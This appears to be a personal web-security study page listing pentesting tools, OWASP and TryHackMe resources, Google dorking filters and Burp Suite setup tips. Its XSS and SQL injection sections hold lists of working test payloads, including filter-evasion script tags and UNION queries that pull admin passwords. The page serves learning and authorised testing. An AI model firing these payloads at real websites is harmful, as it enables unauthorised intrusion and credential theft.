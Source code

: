 # Security

## Tools

[Base64 Decode and Encode](https://www.base64decode.org/)    
[Wappalyze](https://www.wappalyzer.com/) - Find out the technology stack of a website.  
[SecLists](https://github.com/danielmiessler/SecLists) - A collection of lists used during security assessments.     
[Sublist3r](https://github.com/aboul3la/Sublist3r) - Collects and gathers subdomains for a target domain.    
[fuff](https://github.com/ffuf/ffuf) - Web fuzzer.    
[Wfuzz](https://github.com/xmendez/wfuzz) - Web fuzzer.    
[XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter) - Performs Blind XSS attacks and captures cookies, URLs, page contents.   
[XSStrike](https://github.com/s0md3v/XSStrike) - A Cross Site Scripting detection suite.         

## Reading

[OWASP Top 10](https://owasp.org/Top10/)     
[OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)      
[Postgres SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)    
[Bug Bounty Cheatsheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)     
[Command Injection Payload List](https://github.com/payloadbox/command-injection-payload-list)     

## Videos

[A Starters Guide to Pentesting with OWASP](https://www.youtube.com/watch?v=AO_sqXb-gKE)     

## Frameworks

A set of guidelines and best practices to help organizations build and improve their cybersecurity. Frameworks are a blueprint for managing risk and reducing vulnerabilities.

[OWASP](https://owasp.org/)    
[NCSC CAF](https://www.ncsc.gov.uk/collection/caf/caf-principles-and-guidance)    
[NIST](https://www.nist.gov/cyberframework)    

## Notes

### Google Hacking

[Google Hacking](https://en.wikipedia.org/wiki/Google_hacking) is a technique that uses Google Search and other Google applications to find security holes.

| Filter  | Example | 
| ------------- | ------------- | 
| site  | site:example.com  | 
| filetype  | filetype:csv  | 
| inurl  | inurl:admin  | 
| intitle  | intitle:admin  | 

**Example:** "-site:www.example.com site:*.example.com" would only contain results leading to the domain name example.com but exclude any links to www.example.com.

### Cross-site Scripting (XSS)

[OWASP XSS Overview](https://owasp.org/www-community/attacks/xss/)      
[THM XSS Room](https://tryhackme.com/room/xssgi)

```
<script>alert('XSS');</script>    
"><script>alert('XSS');</script>    
</textarea><script>alert('XSS');</script>    
';alert('XSS');//    
<sscriptcript>alert('XSS');</sscriptcript>    
/images/cat.jpg" onload="alert('XSS');    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
<iframe src=\"javascript:alert(XSS)\">    
<iframe src="javascript:alert(`XSS`)">    
```

### SQL Injection

[OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)     
[W3Schools SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)      
[THM SQL Injection](https://tryhackme.com/room/sqlinjectionlm)      
[OWASP Testing_PostgreSQL](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.4-Testing_PostgreSQL)

- Inband: data is extracted using the same channel that is used to inject the SQL code. This is the most straightforward kind of attack, in which the retrieved data is presented directly in the application web page.
- Out-of-band: data is retrieved using a different channel (e.g., an email with the results of the query is generated and sent to the tester).
- Inferential or Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.

```
;
'
' OR 1=1;--
1 UNION SELECT 1,2
%00' UNION SELECT password FROM Users WHERE username='admin'--
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
UNION ALL SELECT user,NULL,NULL--
```

## Burp Suite

[THM Burp Suite Basics](https://tryhackme.com/room/burpsuitebasics)         
[FoxyProxy](https://addons.mozilla.org/en-GB/firefox/addon/foxyproxy-basic/)

Set up browser proxy and certificate. Turn intercept on and in proxy options configure rules - "Or Request Was Intercepted", "And URL Is in target scope". Send to repeater or send to intruder.

- Browser hanging - Turn off Intercept.      
- Can't intercept - Update Scope.

